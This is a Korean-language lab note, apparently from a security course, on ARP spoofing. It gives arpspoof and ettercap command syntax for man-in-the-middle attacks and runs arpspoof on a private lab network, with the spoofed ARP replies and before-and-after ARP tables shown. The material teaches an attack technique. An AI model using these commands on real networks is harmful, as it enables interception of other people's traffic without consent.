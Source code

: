 ### ARP Spoofing (15p)

#### arpspoof 사용법

- arpspoof -> arp spoofing tool
  - #arpsoof -i [eth?] -t [공격대상 IP] [속일 MAC주소 IP]
- ettercap -> 여러가지 spoofing tool, GUI, TUI 둘 다 지원
  - ettercap -T -i [eth?] -M arp:remote //공격대상 IP// //목적지 IP//
    - -T :  TUI 환경
    - -M : MITM 공격
    - -i : 변조할 패킷을 내보낼 인터페이스
    - 







###### kali

 root@kali-04:~/Desktop# apt-get -y install dsniff



###### Win

cmd 실행 -> ping 172.16.10.20 <APM 주소> -> arp -a 치면

```
172.16.10.20 		00-04-56-2f-d6-56	dynamic
```



###### Kali

root@kali-04:~/Desktop# arpspoof -i eth0 -t 172.16.10.10 172.16.10.20

```
0:4:56:2f:d6:56 0:4:56:2d:27:f3 0806 42: arp reply 172.16.10.20 is-at 0:4:56:2f:d6:56
0:4:56:2f:d6:56 0:4:56:2d:27:f3 0806 42: arp reply 172.16.10.20 is-at 0:4:56:2f:d6:56
0:4:56:2f:d6:56 0:4:56:2d:27:f3 0806 42: arp reply 172.16.10.20 is-at 0:4:56:2f:d6:56
0:4:56:2f:d6:56 0:4:56:2d:27:f3 0806 42: arp reply 172.16.10.20 is-at 0:4:56:2f:d6:56
0:4:56:2f:d6:56 0:4:56:2d:27:f3 0806 42: arp reply 172.16.10.20 is-at 0:4:56:2f:d6:56

```

###### Win

cmd -> ping 172.16.10.30

```
172.16.10.20 		00-04-56-2f-d6-56	dynamic
172.16.10.30 		00-04-56-2f-d6-56	dynamic
```

칼리에서 공격 중지 시

```
172.16.10.20 		00-04-56-2b-84-fa	dynamic
```
